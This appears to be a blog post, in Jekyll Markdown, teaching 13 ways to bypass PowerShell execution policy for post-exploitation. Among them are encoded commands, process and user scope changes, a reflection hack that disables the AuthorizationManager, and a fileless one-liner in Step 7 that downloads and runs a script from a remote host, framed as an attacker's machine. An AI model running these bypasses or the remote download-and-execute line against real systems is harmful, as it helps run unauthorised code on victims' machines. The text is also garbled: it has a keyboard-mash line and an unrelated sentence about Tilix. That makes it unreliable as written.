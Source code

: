 ```yaml
---
layout: post
title:  "How to Bypass PowerShell Execution Policy"
date:   2020-09-24 20:24:26 -0700
categories: PowerShell Execution Policy
---
```


<h1><b>Intro</b></h1>
jhsbedfkhujgwb ejkygfbnkuwyebfkuynweghfyuingwyoseufni
PowerShell is an essential component of any Windows environment and can be a powerful tool in the hands of a hacker. During post-exploitation, PowerShell scripts can make privilege escalation and pivoting a breeze, but its execution policy can put a damper on even the best-laid plans. There are a variety of methods, however, that can be used to bypass PowerShell execution policy.

<h3><b>PowerShell Execution Policy Overview</b></h3>
The purpose of PowerShell's execution policy is to control how configuration files are loaded and how scripts are run. It's a safety feature that helps prevent malicious scripts from being executed. Policies can be set at the computer level, user level, and session level on Windows machines. It's important to note that the execution policy is not meant to be secure — it merely prevents users from unintentionally causing damage. As we'll soon find out, it can be bypassed in several ways.

There are seven types of execution policies in PowerShell. These are only enforced on Windows machines:

Unrestricted: This is the default policy for non-Windows machines; it means scripts will be run with a warning.
Restricted: This is the default for Windows machines; it prevents scripts from being run but allows individual commands.
Bypass: This means all scripts can run and there are no warnings.
AllSigned: This requires all scripts and configuration files to be signed by a trusted publisher — even those created on the local machine.
RemoteSigned: This is the default policy on Windows servers; requires a signature only from files downloaded from the internet.
Default: This simply sets the default execution policy.
Undefined: This is when there is no policy set in the current scope. If all scopes are Undefined, the execution policy defaults to Restricted. 

To view the current execution policy, issue the following command in PowerShell:


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

Now that we've covered the basics, let's get started on some bypasses.


<h4><b>Step 1: Bypass Flag </b></h4>
Perhaps the easiest way to bypass execution policy is to use the Bypass flag. Doing so will run the script with no warnings or prompts.

To do so, open PowerShell and type:

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h4><b>Step 2: Unrestricted Flag</b></h4>
Similar to the Bypass flag, we can use the Unrestricted flag to run our script, this time with a warning.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h4><b>Step 3: Command Switch</b></h4>
We can use the command switch to issue commands and directly run a script. This will work for simple scripts, but more complex ones will usually have errors.
Tilix is available in Kali's APT repositories and can be installed using the below command.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h4><b>Step 4: Encoded Command Switch</b></h4>
This method is similar to the command switch but encodes the script as a base64 encoded string. This can help avoid parsing errors as well as provide a layer of obfuscation.

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h4><b>Step 5: Invoke-Command</b></h4>
The Invoke-Command method is nice in that it can be used to issue commands against remote machines when PowerShell remoting has been enabled.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h4><b>Step 6: Invoke-Expression</b></h4>
We can use the Invoke-Expression method to pipe the contents of our script and be executed.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h4><b>Step 7: Download from URL</b></h4>
PowerShell can be used to download a script from the internet, or from an attacker's machine, and then be executed without writing to disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h4><b>Step 8: Paste</b></h4>
Another method to get around execution policy is to simply copy and paste the script into the interactive console. Again, this is useful for running quick scripts that aren't too complex.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h4><b>Step 9: Echo & Pipe</b></h4>
We can also echo the contents of our script into PowerShell standard input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 10: Read & Pipe</b></h4>
Similar to the echo method, we can read the contents of our script and pipe it into PowerShell standard input.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 11: Process Scope</b></h4>
The execution policy can be applied at different levels, including the currently controlled process. We can change the execution policy for the current process.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h4><b>Step 12: Current User Scope</b></h4>
This method is similar to the process scope but changes the execution policy for the current user. This works by modifying a registry key under the hood.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h4><b>Step 13: Authorization Manager Swap</b></h4>
The final method we'll cover essentially overrides a function in PowerShell. The AuthorizationManager function will be replaced with a null value when our function is called, setting the execution policy for the session to Unrestricted, and allowing our script to run.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}
